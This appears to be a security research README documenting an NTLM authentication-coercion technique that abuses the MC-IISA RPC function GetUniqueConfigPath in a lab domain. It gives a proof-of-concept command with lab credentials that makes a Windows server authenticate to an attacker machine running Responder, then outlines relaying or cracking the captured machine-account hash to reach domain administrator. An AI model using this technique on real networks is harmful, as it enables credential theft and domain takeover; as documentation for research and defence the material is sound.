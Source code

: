 # MC-IISA - Remote call to GetUniqueConfigPath (opnum 4)

## Summary

+ **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

+ **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetUniqueConfigPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f368fd09-096c-4f65-98ae-1918a3569560)

+ **Function operation number**: `4`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`GetUniqueConfigPath`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f368fd09-096c-4f65-98ae-1918a3569560) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetUniqueConfigPath('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetUniqueConfigPath(
   [in] BSTR bstrConfigPath,
   [out, retval] BSTR* pbstrUniquePath
 );
```

## References

+ Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

+ Documentation of function `GetUniqueConfigPath`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/f368fd09-096c-4f65-98ae-1918a3569560